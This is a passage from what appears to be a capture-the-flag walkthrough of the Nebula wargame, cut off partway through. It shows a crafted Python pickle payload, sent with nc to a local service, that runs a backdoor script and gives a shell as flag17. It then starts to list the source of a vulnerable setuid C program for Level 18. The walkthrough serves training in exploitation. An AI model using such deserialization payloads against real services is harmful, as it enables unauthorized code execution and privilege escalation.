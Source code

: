 
And in the second terminal we exploit the server by entering the following in a terminal:

	:::bash
	evel17@nebula:/home/flag17$ nc localhost 10007
	Accepted connection from 127.0.0.1:39122cposix
	system
	p0
	(S'python /tmp/bd.py'
	p1
	tp2
	Rp3
	.

And then in the first terminal we have a shell with user `flag17`. Done!


## Level 18 - Exhausting file descriptors to create circumstances

In this level, we neet to exploit a C Program that has the setuid bit set. The program has the following code:

	:::C
	#include <stdlib.h>
	#include <unistd.h>
	#include <string.h>
	#include <stdio.h>
	#include <sys/types.h>
	#include <fcntl.h>
	#include <getopt.h>


	struct {
	  FILE *debugfile;
	  int verbose;
	  int loggedin;
	} globals;

	#define dprintf(...) if(globals.debugfile) \
	  fprintf(globals.debugfile, __VA_ARGS__)
	#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
	  fprintf(globals.debugfile, __VA_ARGS__)

	#define PWFILE "/home/flag18/password"

	void login(char *pw)
	{
	  FILE *fp;

	  fp = fopen(PWFILE, "r");
	  if(fp) {
	    char file[64];

	    if(fgets(file, sizeof(file) - 1, fp) == NULL) {
	      dprintf("Unable to read password file %s\n", PWFILE);
	      return;
	    }
	    fclose(fp);
	    if(strcmp(pw, file) != 0) return;    
	  }
	  dprintf("logged in successfully (with%s password file)\n", 
	    fp == NULL ? "out" : "");
	  